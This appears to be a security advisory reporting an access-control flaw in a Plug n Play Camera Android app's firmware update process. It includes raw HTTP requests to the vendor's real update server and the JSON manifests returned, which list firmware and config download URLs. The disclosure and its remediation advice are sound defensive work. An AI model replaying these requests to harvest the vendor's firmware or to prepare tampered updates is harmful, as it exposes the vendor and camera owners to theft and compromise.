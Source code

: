 # Vulnerability Report - com.starvedia.mCamView.zwave- Incorrect Access Control

**Product:** `com.starvedia.mCamView.zwave`

**Vendor:** [Plug n Play Camera](http://www.starvedia.com/)

**Version:** 5.5.1

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.starvedia.mCamView.zwave` , developed by **Plug n Play Camera**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTP requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `firmware_link, module_link` Field values in the `BuildConfig`class provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003202513940](https://s2.loli.net/2024/10/03/zwPa2ml7xTSGhD1.png)

   ![image-20241003202531276](https://s2.loli.net/2024/10/03/O5e8JVztpYMoAPv.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://www.starvedia.com/AutoUpgrade/Httpversions.json HTTP/1.0
   User-Agent: Fiddler
   Host: www.starvedia.com
   ```

   ```http
   GET http://www.starvedia.com/AutoUpgrade/UpgradeFilename.json HTTP/1.0
   User-Agent: Fiddler
   Host: www.starvedia.com
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 7219
   Accept-Ranges: bytes
   Content-Type: application/json
   Date: Thu, 03 Oct 2024 12:26:54 GMT
   Etag: "1c33-6149fe965e04e"
   Last-Modified: Wed, 27 Mar 2024 08:08:28 GMT
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16
   
   {
   "vendor":"starvidia",
   "products":
   [{
   "model":"IC502wp",
   "version":"030715",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC502wp-cloud-030715-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"3",
   "cfgUrl":"http://www.starvedia.com/AutoUpgrade/Config/gen_502wp_003.cfg"
   },
   {
   "model":"IC717w",
   "version":"030708",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC717w-cloud-030708-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"2",
   "cfgUrl":"http://www.starvedia.com/AutoUpgrade/Config/gen_717w_002.cfg"
   },
   ......
   ```

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 3972
   Accept-Ranges: bytes
   Content-Type: application/json
   Date: Thu, 03 Oct 2024 12:28:21 GMT
   Etag: "f84-61ee61eb2b017"
   Last-Modified: Mon, 05 Aug 2024 02:06:06 GMT
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16
   
   {
     "Formatt": 
       {
         "UpgeadeFilename": "ModelName"
       }
     ,
     "Generic": 
       {
         "G1": "IC717w",
         "G2": "IC717HD",
         "G3": "IC737w",
         "G4": "IC711w",
         "G5": "IC727w",
         "G6": "IC731w",
         "G7": "IC722w",
         "G8": "IC502HD",
         "G9": "IC737wp",
         "G10": "IC721w",
         "G11": "IC727FHD",
         "G12": "IC731FHD",
         "G13": "IC737FHD",
         "G14": "IC727LTE",
         "G15": "IC733",
         "G16": "D1w",
         "G17": "D1",
         "G18": "IC722w1",
         "G19": "IC727FHD-1",
         "G27": "IC722w3",
   	  "G33": "IC180",
   	  "G36": "IC735",
   	  "G37": "IC180LTE",
         "Z0": "IC717z",
         "Z1": "IC731z",
         "Z2": "IC722z",
         "Z3": "G1",
         "Z4": "IC731zp",
         "Z5": "IC731zFHD",
         "Z6": "D1z",
         "Z7": "D1wz",
         "Z8": "IC737zFHD",
         "Z9": "G1-1",
         "Z10": "IC722z1",
         "Z11": "IC731zFHD1",
         "Z12": "G1-1w",
         "Z13": "G1-1a",
         "Z14": "D1wz1",
         "Z15": "IC722z2",
         "Z17": "IC722z3",
         "J1": "IC722w1_JSS",
   	  "B3": "D1w3_ISeed"
       }
     ,
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003203043784](https://s2.loli.net/2024/10/03/xbIhLE47J8vAyHO.png)

   In total, we successfully downloaded **46 firmware** by exploiting the vulnerability.

## Impact

An attacker can exploit this vulnerability to:

- Download the latest firmware before it is officially released.
- Analyze the firmware for vulnerabilities or proprietary information.
- Create modified firmware images with malicious code.
- Distribute compromised firmware updates to unsuspecting users.

## Remediation

- Implement proper access control on the firmware server, such as device ID and user ID verification.
- Enhance the app's firmware update mechanism to include authentication credentials in the requests.

## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.